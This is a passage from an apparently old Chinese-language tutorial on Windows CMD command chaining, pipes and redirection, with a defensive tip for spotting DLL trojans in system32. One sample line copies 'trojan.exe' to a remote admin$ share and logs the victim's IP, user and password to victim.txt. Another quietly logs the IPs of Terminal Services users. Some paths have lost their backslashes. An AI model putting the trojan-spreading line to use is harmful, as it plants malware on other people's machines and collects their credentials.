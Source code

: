 Directory of c:Ex4rch
2002-05-14 23:51 <DIR> .
2002-05-14 23:51 <DIR> ..
2002-05-14 23:51 14 sometips.gif
### 2.&&
Usage：第一条命令 && 第二条命令 [&& 第三条命令...]
用这种方法可以同时执行多条命令，当碰到执行出错的命令后将不执行后面的命令，如果一直没有出错则一直执行完所有命令；
Sample：
C:>dir z: && dir c:Ex4rch
The system cannot find the path specified.
C:>dir c:Ex4rch && dir z:
Volume in drive C has no label.
Volume Serial Number is 0078-59FB
Directory of c:Ex4rch
2002-05-14 23:55 <DIR> .
2002-05-14 23:55 <DIR> ..
2002-05-14 23:55 14 sometips.gif
1 File(s) 14 bytes
2 Dir(s) 768,671,744 bytes free
The system cannot find the path specified.
在做备份的时候可能会用到这种命令会比较简单，如：
dir file://192.168.0.1/database/backup.mdb && copy file://192.168.0.1/database/backup.mdb E:backup
如果远程服务器上存在backup.mdb文件，就执行copy命令，若不存在该文件则不执行copy命令。这种用法可以替换IF exist了 ：）
### 3.||
Usage：第一条命令 || 第二条命令 [|| 第三条命令...]
用这种方法可以同时执行多条命令，当碰到执行正确的命令后将不执行后面的命令，如果没有出现正确的命令则一直执行完所有命令；
Sample：
C:Ex4rch>dir sometips.gif || del sometips.gif
Volume in drive C has no label.
Volume Serial Number is 0078-59FB
Directory of C:Ex4rch
2002-05-14 23:55 14 sometips.gif
1 File(s) 14 bytes
0 Dir(s) 768,696,320 bytes free
组合命令使用的例子：
sample：
@copy trojan.exe /%1admin$system32 && if not errorlevel 1 echo IP %1 USER %2 PASS %3 >>victim.txt
## 四、管道命令的使用
1.| 命令
Usage：第一条命令 | 第二条命令 [| 第三条命令...]
将第一条命令的结果作为第二条命令的参数来使用，记得在unix中这种方式很常见。
sample：
time /t>>D:IP.log
netstat -n -p tcp|find ":3389">>D:IP.log
start Explorer
看出来了么？用于终端服务允许我们为用户自定义起始的程序，来实现让用户运行下面这个bat，以获得登录用户的IP。
2.>、>>输出重定向命令
将一条命令或某个程序输出结果的重定向到特定文件中, > 与 >>的区别在于，>会清除调原有文件中的内容后写入指定文件，而>>只会追加内容到指定文件中，而不会改动其中的内容。
sample1：
echo hello world>c:hello.txt (stupid example?)
sample2:
时下DLL木马盛行，我们知道system32是个捉迷藏的好地方，许多木马都削尖了脑袋往那里钻，DLL马也不例外，针对这一点我们可以在安装好系统和必要的应用程序后，对该目录下的EXE和DLL文件作一个记录：
运行CMD--转换目录到system32--dir *.exe>exeback.txt & dir *.dll>dllback.txt,
这样所有的EXE和DLL文件的名称都被分别记录到exeback.txt和dllback.txt中,
日后如发现异常但用传统的方法查不出问题时,则要考虑是不是系统中已经潜入DLL木马了.
这时我们用同样的命令将system32下的EXE和DLL文件记录到另外的exeback1.txt和dllback1.txt中,然后运行:
CMD--fc exeback.txt exeback1.txt>diff.txt & fc dllback.txt dllback1.txt>diff.txt.(用FC命令比较前后两次的DLL和EXE文件,并将结果输入到diff.txt中),这样我们就能 发现一些多出来的DLL和EXE文件,然后通过查看创建时间、版本、是否经过压缩等就能够比较容易地判断出是不是已经被DLL木马光顾了。没有是最好，如 果有的话也不要直接DEL掉，先用regsvr32 /u trojan.dll将后门DLL文件注销掉,再把它移到回收站里，若系统没有异常反映再将之彻底删除或者提交给杀毒软件公司。
3.< 、>& 、<&